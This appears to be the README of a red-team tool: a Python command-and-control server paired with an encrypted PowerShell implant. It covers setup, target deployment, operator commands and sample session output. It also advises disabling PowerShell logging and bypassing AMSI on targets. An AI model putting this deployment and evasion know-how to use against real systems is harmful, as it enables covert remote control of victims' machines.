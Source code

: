 # Stage 0 PowerShell Implant

A lightweight, OPSEC-focused PowerShell implant with encrypted command and control communication.
NOTE: AES keys are hardcoded. That's a signature!!! Not ready for your cool ass red team engagements. 
## Features

- **Encrypted Communication**: AES-256-CBC encryption for all C2 traffic
- **Session Management**: Multi-session support with easy switching
- **PowerShell Integration**: Native PowerShell command execution
- **OPSEC-Safe**: In-memory execution, minimal process creation
- **Simple Interface**: Clean operator interface without complex prefixes

## Components

### Server (`server.py`)
- Python-based C2 server with encrypted communication
- Multi-session management
- Interactive operator interface
- Session logging to `stage0_logs/` directory

### Implant (`implant.ps1`)
- PowerShell-based implant
- AES-256-CBC encrypted communication
- In-memory command execution
- Automatic reconnection handling

## Setup

### Prerequisites
```bash
pip install pycryptodome prompt_toolkit
```

### Server Setup
```bash
python3 server.py <listen_ip> <port>
```

Example:
```bash
python3 server.py 0.0.0.0 4343
```

### Implant Deployment
1. Modify the server IP and port in `implant.ps1`:
   ```powershell
   param(
       [string]$server = "YOUR_SERVER_IP",
       [int]$port = 4343
   )
   ```

2. Deploy to target system and execute:
   ```powershell
   .\implant.ps1
   ```

## Usage

### Operator Commands

| Command | Description |
|---------|-------------|
| `help` | Show help message |
| `sessions` | List active sessions |
| `use <session_id>` | Switch to a specific session |
| `kill <session_id>` | Forcibly close a session |
| `exit` | Exit current session (sends EXIT to implant) |

### Remote Commands

| Command Type | Example | Description |
|--------------|---------|-------------|
| **PowerShell** | `Get-Process` | Execute PowerShell commands (default) |
| **PowerShell** | `ps` | Process listing (PowerShell alias) |
| **PowerShell** | `ls` | Directory listing (PowerShell alias) |
| **PowerShell** | `whoami` | Get current user |
| **Windows CMD** | `CMD whoami` | Execute Windows command prompt commands |

### Examples

```bash
[OPERATOR] >>> sessions
Active sessions:
  1: 192.168.1.100:12345 [active] <-- selected

[OPERATOR] >>> ps
Handles NPM(K)  PM(K)  WS(K)   CPU(s)    Id SI ProcessName
------- ------  -----  -----   ------    -- -- -----------
    325     20   7284  39620     1.61  2976  1 explorer
    150      8   1452   7312     0.00  2604  0 powershell

[OPERATOR] >>> ls
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        1/1/2024   9:00:00 AM                Documents
-a----        1/1/2024   9:30:00 AM           1234 file.txt

[OPERATOR] >>> whoami
DOMAIN\username

[OPERATOR] >>> CMD ipconfig
Windows IP Configuration
Ethernet adapter Ethernet:
   Connection-specific DNS Suffix  . : local
   IPv4 Address. . . . . . . . . . . : 192.168.1.100
```

## OPSEC Considerations

### Strengths
- **In-memory execution**: Most commands run in PowerShell memory space
- **No process creation**: Commands don't spawn new processes (except CMD)
- **Encrypted communication**: All traffic is AES-256-CBC encrypted
- **Session persistence**: Maintains connection across command execution

### Detection Vectors
- **PowerShell logging**: Commands may be logged by ScriptBlock logging
- **AMSI scanning**: Commands are scanned by Anti-Malware Scan Interface
- **Network traffic**: Encrypted but detectable as unusual traffic
- **Process behavior**: PowerShell process with network activity

### Mitigation Strategies
- **Disable PowerShell logging** in target environment
- **Use CMD prefix** for commands that need to avoid PowerShell logging
- **Implement AMSI bypasses** for sensitive operations
- **Use environment variables** instead of `whoami` for user info

## File Structure

```
stage0/
├── server.py          # C2 server
├── implant.ps1        # PowerShell implant
├── stage0_logs/       # Session logs
├── __pycache__/       # Python cache
└── README.md          # This file
```

## Security Notes

- **For educational/authorized testing only**
- **Use only on systems you own or have explicit permission to test**
- **Encryption keys are hardcoded - change for production use**
- **Consider implementing certificate-based authentication**
- **Monitor for detection and adjust OPSEC measures accordingly**

## Troubleshooting

### Common Issues

**Implant won't connect:**
- Check server IP/port configuration
- Verify firewall settings
- Ensure PowerShell execution policy allows script execution

**Commands not working:**
- Use `CMD` prefix for Windows commands
- PowerShell commands run by default
- Check session status with `sessions`

**Session disconnects:**
- Implant automatically handles reconnection
- Check network connectivity
- Verify server is still running

## License

This project is for educational and authorized security testing purposes only. Use responsibly and in accordance with applicable laws and regulations.
